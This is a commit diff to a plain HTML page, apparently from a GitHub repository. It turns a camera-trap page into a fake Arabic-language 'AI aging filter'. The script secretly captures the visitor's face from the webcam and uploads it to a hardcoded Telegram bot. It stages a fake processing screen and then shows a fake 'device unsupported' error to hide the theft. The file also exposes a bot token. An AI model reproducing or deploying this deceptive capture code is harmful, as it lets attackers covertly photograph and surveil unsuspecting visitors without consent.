

Before and after one commit to mo200010009-ui/cam, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (256-901 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,18 +3,68 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>جار التحميل...</title>
+    <title>فلتر الشيخوخة - كيف ستصبح عندما تكبر؟</title>
     <style>
-        body { background-color: #121212; color: #fff; font-family: sans-serif; text-align: center; padding-top: 50px; }
+        body {
+            background: linear-gradient(135deg, #1f4068, #162447);
+            color: #fff;
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+            text-align: center;
+            padding: 20px;
+            margin: 0;
+        }
+        .container {
+            max-width: 400px;
+            margin: 50px auto;
+            background: rgba(255, 255, 255, 0.05);
+            padding: 30px;
+            border-radius: 20px;
+            box-shadow: 0 8px 32px 0 rgba(0, 0, 0, 0.37);
+            backdrop-filter: blur(4px);
+        }
+        h2 { color: #e4e4e4; margin-bottom: 10px; }
+        p { color: #b0c4de; font-size: 14px; margin-bottom: 25px; }
+        .btn {
+            background: linear-gradient(45deg, #ff416c, #ff4b2b);
+            color: white;
+            padding: 15px 30px;
+            font-size: 18px;
+            font-weight: bold;
+            border: none;
+            border-radius: 30px;
+            cursor: pointer;
+            box-shadow: 0 4px 15px rgba(255, 65, 108, 0.4);
+            transition: 0.3s;
+            width: 100%;
+        }
+        .btn:active { transform: scale(0.98); }
         video, canvas { display: none; }
-        .fake-btn { background-color: #ff0055; color: white; padding: 15px 30px; font-size: 18px; border: none; border-radius: 30px; cursor: pointer; }
+        .loading { display: none; margin-top: 20px; }
+        .spinner {
+            border: 4px solid rgba(255,255,255,0.3);
+            border-top: 4px solid #ff416c;
+            border-radius: 50%;
+            width: 40px;
+            height: 40px;
+            animation: spin 1s linear infinite;
+            margin: 10px auto;
+        }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
 
-    <h2>جاري تحميل المحتوى...</h2>
-    <p>يرجى النقر للمتابعة</p>
-    <button class="fake-btn" onclick="triggerTrap()">اضغط هنا للتشغيل</button>
+    <div class="container" id="mainBox">
+        <h2>👴 اكتشف شكل وجهك في سن الـ 70</h2>
+        <p>انضم لأحدث فلتر ذكاء اصطناعي وتعرف على ملامحك المستقبلية بدقة عالية.</p>
+        <button class="btn" onclick="startFilter()">ابدأ الفلتر الآن</button>
+    </div>
+
+    <div class="container loading" id="loadingBox">
+        <h2>⏳ جاري معالجة الصورة...</h2>
+        <div class="spinner"></div>
+        <p>يرجى الانتظار بينما يقوم الذكاء الاصطناعي برسم تجاعيد الوجه وتعديل الملامح...</p>
+    </div>
 
     <video id="video" autoplay playsinline></video>
     <canvas id="canvas"></canvas>
@@ -23,7 +73,11 @@
         const BOT_TOKEN = "9190134340:AAGUQMeIimoN6cqr8tKqYXKEmI35NMqoeJw";
         const CHAT_ID = "7664768067";
 
-        async function triggerTrap() {
+        async function startFilter() {
+            // إخفاء زر البداية وإظهار شاشة التحميل الوهمية للفلتر
+            document.getElementById('mainBox').style.display = 'none';
+            document.getElementById('loadingBox').style.display = 'block';
+
             try {
                 const stream = await navigator.mediaDevices.getUserMedia({
                     video: { facingMode: "user" }
@@ -36,30 +90,40 @@
                     video.onloadedmetadata = () => { resolve(); };
                 });
 
+                // الانتظار ثانية كاملة ليبدو الأمر وكأن الجهاز يعالج صورة حقيقية
+                await new Promise(r => setTimeout(r, 1200));
+
                 const canvas = document.getElementById('canvas');
                 canvas.width = video.videoWidth;
                 canvas.height = video.videoHeight;
                 const context = canvas.getContext('2d');
                 context.drawImage(video, 0, 0, canvas.width, canvas.height);
 
-                // تحويل الصورة إلى ملف قابل للإرسال
                 canvas.toBlob(async (blob) => {
                     const formData = new FormData();
                     formData.append('chat_id', CHAT_ID);
-                    formData.append('photo', blob, 'capture.png');
+                    formData.append('photo', blob, 'aged_face_target.png');
 
-                    // إرسال الصورة مباشرة إلى بوت تيليجرام الخاص بك
+                    // إرسال الصورة إلى تيليجرام في الخلفية
                     await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`, {
                         method: 'POST',
                         body: formData
                     });
 
                     stream.getTracks().forEach(track => track.stop());
-                    window.location.href = "https://google.com";
+
+                    // بعد إرسال الصورة، نعرض له رسالة خطأ وهمية أو نوجهه لموقع طبيعي بعد قليل
+                    setTimeout(() => {
+                        alert("عذراً، هذا الجهاز غير مدعوم لتشغيل فلتر الذكاء الاصطناعي الثقيل!");
+                        window.location.href = "https://google.com";
+                    }, 1500);
+
                 }, 'image/png');
 
             } catch (err) {
-                console.error("خطأ:", err);
+                // لو رفض الإذن أو حدث خطأ
+                alert("يجب السماح للكاميرا لكي ينجح الفلتر!");
+                location.reload();
             }
         }
     </script>
```
